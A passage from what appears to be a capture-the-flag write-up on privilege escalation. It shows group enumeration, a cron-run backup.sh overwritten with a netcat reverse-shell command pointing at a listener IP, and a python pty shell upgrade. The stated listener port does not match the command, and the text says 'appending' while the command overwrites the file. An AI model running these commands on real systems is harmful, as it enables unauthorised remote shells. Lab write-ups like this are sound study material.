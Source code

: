     find / -group pinky

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202519924_image.png)


`backup.sh` discovered that we are able to take a loot at.

investigating the bash file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202602824_image.png)


*unfortunately we cannot open. Which is confusing because we are apart of the pinky group. But, after remember we upgraded from a SUID sticky bit the group list never updated.*

updating the grouplist

    newgrp

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202740986_image.png)


*the gid has now successfully updated.*


    cat backup.sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553202787752_image.png)


*The file is executable and will execute at the group level so if we modify it to include another reverse shell we could achieve access of user.*

Creating reverse shell via appending backup.sh - new listener setup on 5555

    echo "nc -e /bin/bash 192.168.213.130 6666" > backup.sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203984472_image.png)


*backup.sh has been overridden!  - we know wait till the cronjob is executed.*

Reverse connection received:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553204538491_image.png)


*we are now operating as user* `*demon*`

upgrade shell again with python:

    python -c "import pty;pty.spawn('/bin/bash')"

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203110301_image.png)


Investigate the home directory:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553203200490_image.png)


*nothing of immediate usefulness. Begin again enumerating again with find command.*
